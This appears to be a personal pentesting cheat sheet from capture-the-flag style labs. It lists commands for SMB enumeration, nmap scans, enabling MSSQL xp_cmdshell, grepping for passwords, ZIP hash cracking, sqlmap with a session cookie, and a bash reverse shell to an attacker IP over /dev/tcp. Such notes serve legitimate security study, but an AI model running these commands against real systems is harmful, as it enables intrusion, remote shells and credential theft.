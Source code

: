 ```yaml
---
title:  2022-06-28
tags:
  - hacking
programming-languagues:
created: 2022-06-28
---
```

# 2022-06-28
---
## Resources
- [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb)

## Tools
### SMB
Server Message Blocks (Port 445) (aka Common Internet File System).

To enumerate:
```bash
smbclient -N -L \\\\{TARGET_IP}\\

-N: no password
-L: look at what services are available
```

To access:
```bash
smbclient -N \\\\{TARGET_IP}\\<folder>
```

When inside, **dir** prints the directories.

To download a file: **get**.

### NMAP
```bash
nmap -p- --min-rate 5000 -sV {TARGET_IP} 
nmap -sC -sV {TARGET_IP}
```

### Impacket
Can be used to connect and authenticate to a MSSQL server for example.

We can try to connect to the MSSQL server by using impacket's `mssqlclient.py` script along with the  
following flags:  
```bash
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth

-windows-auth : this flag is specified to use Windows Authentication  
```

Check if I am admin inside MSSQL:
```sql
SELECT is_srvrolemember('sysadmin');
```

To check for `xp_cmdshell`:
```sql
EXEC xp_cmdshell 'net user';
```

To activate `xp_cmdshell`:
```sql
EXEC sp_configure 'show advanced options', 1;  
RECONFIGURE;  
sp_configure; - Enabling the sp_configure as stated in the above error message  
EXEC sp_configure 'xp_cmdshell', 1;  
RECONFIGURE;
```

We can also use the powershell like this:
```bash
xp_cmdshell "powershell -c pwd"
```

Navigation:
```bash
xp_cmdshell "powershell -c cd C:/Users/Public; dir"
```

More on MSSQL Pentesting:
- Pentesting MSSQL ([HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server))
- [MSSQL Injection CheatSheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

### BURP
Burp Suite is a powerful security testing application that can be used to perform web requests on web applications, mobile apps, and thick clients. Burp offers multiple capabilities such as web crawler, scanner, proxy, repeater, intruder and many more.  

A web crawler (also known as a web spider or web robot) is a program or automated script which browses the World Wide Web in a methodical, automated manner. This process  
is called Web crawling or spidering. Many legitimate sites, in particular search engines, use spidering as a means of providing up-to-date data.  

If you tunnel web traffic through Burp Suite (without intercepting the packets), by default it can passively spider the website, update the site map with all of the contents requested and thus creating a tree of files and directories without sending any further requests.

### Stable Reverse Shell
```bash
sudo python3 -m http.server 80
```

```bash
sudo nc -lvnp 443
```

- Functional php reverse shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### SUID
Commonly noted as SUID (Set owner User ID), the special permission for the user access level has a single function: A file with SUID always executes as the user who owns the file, regardless of the user passing the command. If the file owner doesn't have execute permissions, then use an uppercase S here.

### Useful Commands
```bash
cat * | grep -i passw*
```

### Crack a ZIP file
Turn into hash:
```bash
zip2john backup.zip > hashes
```

```bash
john -wordlist=/usr/share/wordlists/rockyou.txt hashes
```

### SQLmap
SQLmap is an open-source tool used in penetration testing to detect and exploit SQL injection flaws. SQLmap automates the process of detecting and exploiting SQL injection. SQL Injection attacks can take control of databases that utilise SQL.

- Command:
```bash
sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --  
cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1"
```

- Good shell:
```bash
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
```